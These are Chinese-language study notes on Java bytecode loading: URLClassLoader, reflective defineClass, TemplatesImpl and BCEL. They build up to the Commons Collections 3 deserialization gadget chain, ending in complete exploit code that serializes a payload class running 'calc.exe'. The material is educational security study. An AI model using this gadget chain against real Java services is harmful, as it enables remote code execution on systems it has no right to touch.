


## 加载java字节码

### Java字节码

* 广义的字节码——所有能够恢复成一个类并在JVM虚拟机里加载的字节序列

### 利用URLclassLoader加载远程class文件

* URLClassLoader是默认加载类AppClassLoader的父类，两者的工作流程类似
* URLClassLoader可以从远程加载.class文件

```java
// 注意这里没有package，如果限定了包名，后续url访问和loadClass也需要更改路径和指定包名
public class Hello {
    static {
        System.out.println("static");
    }
    {
        System.out.println("{}");
    }
    public Hello(){
        System.out.println("Hello");
    }
}

```

```java
// 运行和编译Hello.java的版本需要一致
import java.net.MalformedURLException;
import java.net.URL;
import java.net.URLClassLoader;

public class HelloClassLoader
{
    public static void main(String[] args) throws MalformedURLException, ClassNotFoundException, InstantiationException, IllegalAccessException {
        URL[] urls = {new URL("http://localhost:8000/")};
        System.out.println("load url");
        URLClassLoader loader = URLClassLoader.newInstance(urls);
        System.out.println("loadClass Hello");
        Class c = loader.loadClass("Hello");
        System.out.println("newInstance Hello");
        c.newInstance();

    }
}

```

运行结果



### 利用ClassLoader#defineClass直接加载字节码


加载class（远程、本地、jar）的方法调用：

* loadClass：从已加载的类缓存、父加载器等位置寻找类，在前面没有找到的情况下，执行 findClass
* findClass：根据基础URL指定的方式来加载类的字节码，就像上一节中说到的，可能会在 本地文件系统、jar包或远程http服务器上读取字节码，然后交给 defineClass

* defineClass：处理前面传入的字节码，将其处理成真正的Java类

所以可见，真正核心的部分其实是 defineClass ，他决定了如何将一段字节流转变成一个Java类，Java 默认的 ClassLoader#defineClass 是一个native方法（Native方法是Java语言中一种特殊的方法,它允许Java代码调用使用其他编程语言，ClassLoader#defineClass 的逻辑在JVM的C语言代码中）

```java
import java.lang.reflect.Method;
import java.util.Base64;

public class HelloDefineClass {
    public static void main(String[] args) throws Exception {
        Method defineClass =
                ClassLoader.class.getDeclaredMethod("defineClass", String.class,
                        byte[].class, int.class, int.class);
        defineClass.setAccessible(true);
        byte[] code =
                Base64.getDecoder().decode("yv66vgAAADQAHwoACAAQCQARABIIABMKABQAFQgAFggAFwcAFgcAGAEABjxpbml" +
                        "0PgEAAygpVgEABENvZGUBAA9MaW5lTnVtYmVyVGFibGUBAAg8Y2xpbml0PgEAClNvdXJjZUZpbGUBAApIZWxsby" +
                        "5qYXZhDAAJAAoHABkMABoAGwEAAnt9BwAcDAAdAB4BAAVIZWxsbwEABnN0YXRpYwEAEGphdmEvbGFuZy9PYmplY" +
                        "3QBABBqYXZhL2xhbmcvU3lzdGVtAQADb3V0AQAVTGphdmEvaW8vUHJpbnRTdHJlYW07AQATamF2YS9pby9Qcmlu" +
                        "dFN0cmVhbQEAB3ByaW50bG4BABUoTGphdmEvbGFuZy9TdHJpbmc7KVYAIQAHAAgAAAAAAAIAAQAJAAoAAQALAAA" +
                        "AOQACAAEAAAAVKrcAAbIAAhIDtgAEsgACEgW2AASxAAAAAQAMAAAAEgAEAAAACAAEAAYADAAJABQACgAIAA0ACgA"+
                        "BAAsAAAAlAAIAAAAAAAmyAAISBrYABLEAAAABAAwAAAAKAAIAAAADAAgABAABAA4AAAACAA8");
        System.out.println("start defineClass ------");
        Class hello = (Class) defineClass.invoke(ClassLoader.getSystemClassLoader(), "Hello", code,
                0, code.length);
        System.out.println("end defineClass ------");
        hello.newInstance();
    }
}
```

这里的decode的字符串是前面给出的示例代码编译成class后再base64编码，注意编译和运行的版本需要一致。这个例子使用java8时成功运行，11时有警告，17时无法成功（由于 Java 9 及以后的版本中引入的模块化系统带来的一个限制。在 Java 9 之前,`ClassLoader.defineClass()` 方法是 `protected` 访问权限的,可以通过反射进行访问。但在 Java 9 之后,这个方法被封装在 Java 模块系统中,默认情况下无法从未命名的模块（即你的应用程序）访问。）。

运行结果：



这里还需要介绍一下java中类的加载，类的初始化过程包括以下几个步骤:

1. 加载: 通过类加载器查找并加载类的二进制数据。
2. 链接: 验证类的字节码,准备静态变量,解析类中的符号引用。
3. 初始化: 执行类的静态初始化代码,包括静态代码块和静态变量的赋值。

而使用defineClass加载类时只完成了1 2两步，所以即使我们说static {}代码块在加载类时就会运行，defineClass也没有达到这一步，所以即使我们在某个地方可控defineClass要加载的字节码，我们也无法在static{}中写入恶意代码进行任意代码执行，**在类加载后必须得显示调用newInstance**。

### 利用TemplatesImpl加载字节码

* com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl$TransletClassLoader重写了defineClass方法，修饰符default
* 可以追溯的调用链，getOutputProperties()和newTransformer()是public
* 多个反序列化利用链，以及fastjson、jackson的漏洞中，都曾出现过 TemplatesImpl 的身影
* 被加载的类要求继承AbstractTranslet

```txt
TemplatesImpl#getOutputProperties() -> TemplatesImpl#newTransformer() ->
TemplatesImpl#getTransletInstance() -> TemplatesImpl#defineTransletClasses()
-> TransletClassLoader#defineClass()
```

```java
// 加载字节码的代码
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import java.lang.reflect.Field;
import java.util.Base64;

public class LoadClassByTemp {
    public static void main(String[] args) throws Exception {
// source: bytecodes/HelloTemplateImpl.java
        byte[] code =
                Base64.getDecoder().decode("yv66vgAAADQAIQoABgASCQATABQIABUKABYAFwcAGAcAGQEA"+
                        "CXRyYW5zZm9ybQEAcihMY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL0RP"+
                        "TTtbTGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0"+
                        "aW9uSGFuZGxlcjspVgEABENvZGUBAA9MaW5lTnVtYmVyVGFibGUBAApFeGNlcHRpb25zBwAaAQCm"+
                        "KExjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvRE9NO0xjb20vc3VuL29y"+
                        "Zy9hcGFjaGUveG1sL2ludGVybmFsL2R0bS9EVE1BeGlzSXRlcmF0b3I7TGNvbS9zdW4vb3JnL2Fw"+
                        "YWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjspVgEABjxp"+
                        "bml0PgEAAygpVgEAClNvdXJjZUZpbGUBABdIZWxsb1RlbXBsYXRlc0ltcGwuamF2YQwADgAPBwAb"+
                        "DAAcAB0BABNIZWxsbyBUZW1wbGF0ZXNJbXBsBwAeDAAfACABABJIZWxsb1RlbXBsYXRlc0ltcGwB"+
                        "AEBjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvcnVudGltZS9BYnN0cmFj"+
                        "dFRyYW5zbGV0AQA5Y29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL1RyYW5z"+
                        "bGV0RXhjZXB0aW9uAQAQamF2YS9sYW5nL1N5c3RlbQEAA291dAEAFUxqYXZhL2lvL1ByaW50U3Ry"+
                        "ZWFtOwEAE2phdmEvaW8vUHJpbnRTdHJlYW0BAAdwcmludGxuAQAVKExqYXZhL2xhbmcvU3RyaW5n"+
                        "OylWACEABQAGAAAAAAADAAEABwAIAAIACQAAABkAAAADAAAAAbEAAAABAAoAAAAGAAEAAAAIAAsA"+
                        "AAAEAAEADAABAAcADQACAAkAAAAZAAAABAAAAAGxAAAAAQAKAAAABgABAAAACgALAAAABAABAAwA"+
                        "AQAOAA8AAQAJAAAALQACAAEAAAANKrcAAbIAAhIDtgAEsQAAAAEACgAAAA4AAwAAAA0ABAAOAAwA"+
                        "DwABABAAAAACABE=");
                        TemplatesImpl obj = new TemplatesImpl();
        setFieldValue(obj, "_bytecodes", new byte[][] {code});
        setFieldValue(obj, "_name", "HelloTemplatesImpl");
        setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());
        obj.newTransformer();
    }

    public static void setFieldValue(Object obj, String propertyName, Object propertyValue) {
        try {
            // 获取对象的类信息
            Class<?> cls = obj.getClass();
            // 根据属性名获取对应的字段
            Field field = cls.getDeclaredField(propertyName);
            // 设置字段的访问权限
            field.setAccessible(true);
            // 将字段设置为指定的值
            field.set(obj, propertyValue);
        } catch (NoSuchFieldException | IllegalAccessException e) {
            e.printStackTrace();
        }
    }
}

```

```java
// 被加载的类
// 要求继承AbstractTranslet
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
public class HelloTemplatesImpl extends AbstractTranslet {
    public void transform(DOM document, SerializationHandler[] handlers)
            throws TransletException {}
    public void transform(DOM document, DTMAxisIterator iterator,
                          SerializationHandler handler) throws TransletException {}
    public HelloTemplatesImpl() {
        super();
        System.out.println("Hello TemplatesImpl");
    }
}
```

### BCEL ClassLoader加载字节码

* BCEL (Byte Code Engineering Library) 是 Apache Software Foundation 提供的一个用于分析、创建和操作 Java 字节码的库。它提供了一套 API,使开发者能够以编程的方式读取、修改和生成 Java 字节码文件。
* 我们可以通过BCEL提供的两个类 Repository 和 Utility 来利用： Repository 用于将一个Java Class 先转换成原生字节码，当然这里也可以直接使用javac命令来编译java文件生成字节码； Utility 用于将 原生的字节码转换成BCEL格式的字节码
* BCEL ClassLoader用于加载BCEL格式的字节码，并可以执行其中的代码
* **BCEL ClassLoader在Java 8u251的更新中被移除**

```java
import com.sun.org.apache.bcel.internal.classfile.JavaClass;
import com.sun.org.apache.bcel.internal.classfile.Utility;
import com.sun.org.apache.bcel.internal.Repository;
import com.sun.org.apache.bcel.internal.util.ClassLoader;

public class HelloBCEL {
    public static void main(String []args) throws Exception {
        JavaClass cls = Repository.lookupClass(Hello.class);
        String code = Utility.encode(cls.getBytes(), true);
        System.out.println(code);
        Hello hello = (Hello) new ClassLoader().loadClass(code).newInstance();
    }
}

```

## 为什么需要CommonCollections3

### 结合TemplatesImpl改造CC1

```java
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;
import org.apache.commons.collections.Transformer;
import java.lang.reflect.Field;
import java.util.Base64;
import java.util.HashMap;
import java.util.Map;
public class TestCC3 {
    public static void setFieldValue(Object obj, String fieldName, Object
            value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }
    public static void main(String[] args) throws Exception {
        // source: bytecodes/HelloTemplateImpl.java
        byte[] code =
                Base64.getDecoder().decode("yv66vgAAADQAIQoABgASCQATABQIABUKABYAFwcAGAcAGQEA"+
                        "CXRyYW5zZm9ybQEAcihMY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL0RP"+
                        "TTtbTGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0"+
                        "aW9uSGFuZGxlcjspVgEABENvZGUBAA9MaW5lTnVtYmVyVGFibGUBAApFeGNlcHRpb25zBwAaAQCm"+
                        "KExjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvRE9NO0xjb20vc3VuL29y"+
                        "Zy9hcGFjaGUveG1sL2ludGVybmFsL2R0bS9EVE1BeGlzSXRlcmF0b3I7TGNvbS9zdW4vb3JnL2Fw"+
                        "YWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjspVgEABjxp"+
                        "bml0PgEAAygpVgEAClNvdXJjZUZpbGUBABdIZWxsb1RlbXBsYXRlc0ltcGwuamF2YQwADgAPBwAb"+
                        "DAAcAB0BABNIZWxsbyBUZW1wbGF0ZXNJbXBsBwAeDAAfACABABJIZWxsb1RlbXBsYXRlc0ltcGwB"+
                        "AEBjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvcnVudGltZS9BYnN0cmFj"+
                        "dFRyYW5zbGV0AQA5Y29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL1RyYW5z"+
                        "bGV0RXhjZXB0aW9uAQAQamF2YS9sYW5nL1N5c3RlbQEAA291dAEAFUxqYXZhL2lvL1ByaW50U3Ry"+
                        "ZWFtOwEAE2phdmEvaW8vUHJpbnRTdHJlYW0BAAdwcmludGxuAQAVKExqYXZhL2xhbmcvU3RyaW5n"+
                        "OylWACEABQAGAAAAAAADAAEABwAIAAIACQAAABkAAAADAAAAAbEAAAABAAoAAAAGAAEAAAAIAAsA"+
                        "AAAEAAEADAABAAcADQACAAkAAAAZAAAABAAAAAGxAAAAAQAKAAAABgABAAAACgALAAAABAABAAwA"+
                        "AQAOAA8AAQAJAAAALQACAAEAAAANKrcAAbIAAhIDtgAEsQAAAAEACgAAAA4AAwAAAA0ABAAOAAwA"+
                        "DwABABAAAAACABE=");
                        TemplatesImpl obj = new TemplatesImpl();
        setFieldValue(obj, "_bytecodes", new byte[][] {code});
        setFieldValue(obj, "_name", "HelloTemplatesImpl");
        setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(obj),
                new InvokerTransformer("newTransformer", null, null)
        };
        Transformer transformerChain = new
                ChainedTransformer(transformers);
        Map innerMap = new HashMap();
        Map outerMap = TransformedMap.decorate(innerMap, null,
                transformerChain);
        outerMap.put("test", "xxxx");
    }
}
```

我们了解到了CC1可以通过InvokerTransformer执行任意方法，所以这里可以通过InvokerTransformer利用TemplatesImpl加载字节码实现任意代码执行。

### 为什么需要CC3

* 2015年初，@frohoff和@gebl发布了<a src=https://frohoff.github.io/appseccali-marshalling-pickles/>Talk《Marshalling Pickles: how deserializing objects will ruin your day》</a>，以及Java反序列化利⽤⼯具ysoserial，随后引爆了安全界。开发者们⾃然会去找寻⼀种安 全的过滤⽅法，于是类似<a href=https://github.com/ikkisoft/SerialKiller>SerialKiller</a>这样的⼯具随之诞⽣。
* SerialKiller是⼀个Java反序列化过滤器，可以通过⿊名单与⽩名单的⽅式来限制反序列化时允许通过的类，在其发布的第⼀个版本代码中，其就限制了InvokerTransformer类
* CC3没有使用InvokerTransformer类，而是通过`com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter`的构造方法（调用了(TransformerImpl)templates.newTransformer()）加载任意字节码，又通过`org.apache.commons.collections.functors.InstantiateTransformer`类调用前一个类的构造方法

```java
// TrAXFilter的构造方法
// Templates是TemplatesImpl的父类
public TrAXFilter(Templates templates)  throws
        TransformerConfigurationException
    {
        _templates = templates;
        _transformer = (TransformerImpl) templates.newTransformer();
        _transformerHandler = new TransformerHandlerImpl(_transformer);
        _useServicesMechanism = _transformer.useServicesMechnism();
    }
```

```java
// org.apache.commons.collections.functors.InstantiateTransformer实现了Transformer, Serializable接口
// 它对于transform的实现
public Object transform(Object input) {
        try {
            if (input instanceof Class == false) {
                throw new FunctorException(
                    "InstantiateTransformer: Input object was not an instanceof Class, it was a "
                        + (input == null ? "null object" : input.getClass().getName()));
            }
            Constructor con = ((Class) input).getConstructor(iParamTypes);
            return con.newInstance(iArgs);

        } catch (NoSuchMethodException ex) {
            throw new FunctorException("InstantiateTransformer: The constructor must exist and be public ");
        } catch (InstantiationException ex) {
            throw new FunctorException("InstantiateTransformer: InstantiationException", ex);
        } catch (IllegalAccessException ex) {
            throw new FunctorException("InstantiateTransformer: Constructor must be public", ex);
        } catch (InvocationTargetException ex) {
            throw new FunctorException("InstantiateTransformer: Constructor threw an exception", ex);
        }
    }
```

```java
// CC3
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InstantiateTransformer;
import org.apache.commons.collections.map.TransformedMap;
import javax.xml.transform.Templates;
import java.io.*;
import java.lang.annotation.Retention;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.Base64;
import java.util.HashMap;
import java.util.Map;

public class CommonsCollections3 {
    public static void setFieldValue(Object obj, String fieldName, Object
            value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }
    public static String classFileToBase64(String filepath) throws IOException {
        String classFilePath = filepath;
        String base64String;
        // 读取 class 文件的字节数组
        byte[] classBytes = Files.readAllBytes(Paths.get(classFilePath));

        // 将字节数组转换为 Base64 编码字符串
        base64String= Base64.getEncoder().encodeToString(classBytes);

        return base64String;
    }
    public static void main(String[] args) throws Exception {
        String base64Code = classFileToBase64("your/class/path/CalcExample.class");
        byte[] code =
                Base64.getDecoder().decode(base64Code);
        TemplatesImpl obj = new TemplatesImpl();
        setFieldValue(obj, "_bytecodes", new byte[][] {code});
        setFieldValue(obj, "_name", "CalcExample");
        setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(TrAXFilter.class),
                new InstantiateTransformer(
                        new Class[] { Templates.class },
                        new Object[] { obj })
        };

        Transformer transformerChain = new
                ChainedTransformer(transformers);

        Map innerMap = new HashMap();

       
        innerMap.put("value", "xxxx");
       

        Map outerMap = TransformedMap.decorate(innerMap, null,
                transformerChain);
        Class clazz =
                Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor construct = clazz.getDeclaredConstructor(Class.class, Map.class);
        construct.setAccessible(true);
        Object objSer = construct.newInstance(Retention.class, outerMap);

        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(objSer);
        oos.close();

        System.out.println(barr);
        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));
        Object o = ois.readObject();
    }
}
```

```java
// CalcExample.java
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

import java.io.IOException;

public class CalcExample extends AbstractTranslet {
    static{
        try {
            Process process = Runtime.getRuntime().exec("calc.exe");
        } catch (IOException e) {
            throw new RuntimeException(e);
        }
    }
    public CalcExample(){
        System.out.println("Calc Example");
    }

    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }
}
```

